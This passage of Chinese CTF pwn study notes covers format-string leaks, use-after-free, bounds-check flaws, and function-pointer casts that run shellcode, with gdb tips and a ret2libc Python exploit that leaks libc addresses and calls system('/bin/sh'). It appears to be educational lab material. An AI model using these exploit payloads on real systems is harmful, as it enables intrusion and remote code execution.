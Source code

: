 1）如str就是“hello world”，则直接输出“hello world”；

2）如str是format，比如是%2$x，则输出偏移2处的16进制数据0xdeadbeef。

### 2.3 malloc&free 
C语言或C++申请内存后，用free或delete释放堆后，指针的值还在，如果不手动设置为NULL，就可以被利用。

当前一个堆释放后，新创建的堆的地址就是前一个堆的地址，指针仍然指向原来的堆地址。

### 2.4 隐蔽实现
如stack2题，由于数组没有边界检查导致ROP:v13[v5] = v7;

如welpwn题:
```c 
for ( i = 0; a1[i]; ++i )
        s2[i] = a1[i];
```
### 2.5 变量指针转换为函数指针执行
如string题，第三个函数存在指令为((void(*fastcall *)(_QWORD,void *)v1)(0LL,v1)是将v1强制转化为函数指针类型，然后调用该函数。最后一个函数中的强制转换指令类型为脆弱点，该语句将V1一个void指针强制类型转换成函数指针并调用了，所以我们将shellcode通过上面的read写入就会得到shell。

如forget题，当v14 == 1时，语句(*(&v3 + --v14))();就能执行v3了。
## 3、解题工具
### 3.1 pwngdb
针对gdb的python漏洞利用开发协助，gdb的插件。

使用方法：先使用chmod 777 提权可执行文件，在shell中使用gdb ./文件名的方式执行。

单步执行：n；单步步入：s；运行：r；继续：c；下断点：b * 0xdeadbeef。

x/10gx $sp 查看栈帧（或函数名或地址）

stack+n 查看当前函数栈中情况.

x/6sw $eax：

6：显示6行数据

s：字符串形式

w：word（4字节）形式
### 3.2 libcsearcher
python的一个库。


借助Libcsearcher实现漏洞利用的方法：
```python
#先leak出write函数在libc中的地址
rop1 = 'a'*112+p32(plt_write)+p32(plt_main)+p32(1)+p32(got_write)+p32(4)
p.recvuntil('Welcome to XDCTF2015~!\n')#不要忘了这句
p.sendline(rop1)
write_addr = u32(p.recv(4))

#利用LibcSearcher获取libc版本
libc = LibcSearcher('write', write_addr)
lib_base = write_addr - libc.dump('write')
system_addr = lib_base + libc.dump('system')
binsh_addr = lib_base + libc.dump('str_bin_sh')

#调用system函数
p.recvuntil('Welcome to XDCTF2015~!\n')
payload1 = 'a' * 112 + p32(system_addr) + p32(0xdeadbeef) + p32(binsh_addr)
```
参考题目：
